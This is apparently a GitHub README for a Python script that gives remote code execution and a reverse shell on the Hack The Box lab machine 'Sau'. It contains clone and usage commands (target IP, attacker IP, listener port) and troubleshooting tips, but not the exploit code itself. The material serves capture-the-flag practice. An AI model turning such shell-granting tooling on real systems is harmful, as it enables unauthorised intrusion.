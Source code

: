 # SAU Machine Hackthebox

## Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `sau_rce.py` .



Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -u <sau_machine_ip> -y <your_ip> -p <port_for_listener>
```

## EXAMPLES



![example1.png](C:\Users\mikel\Desktop\SAU-HTB-RCE\images\example1.png)



![example2.png](C:\Users\mikel\Desktop\SAU-HTB-RCE\images\example2.png)



---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

+ import string

+ import random

+ import requests

+ import os

+ import threading

+ import time

+ import argparse

Install the missing modules with pip in your python enviroment and try it again.



Another reason could be that it's taking too much time to make the request, so you would need to increase this parameter to `10`.

![example3.png](C:\Users\mikel\Desktop\SAU-HTB-RCE\images\example3.png)



Lastly, ensure that no other program on your computer is using port 8003, as this port needs to be available for python server.



---

## Note

`Don't worry about the 'Terminated' word showing once you've got the shell. It's because the Python server thread was closed.`
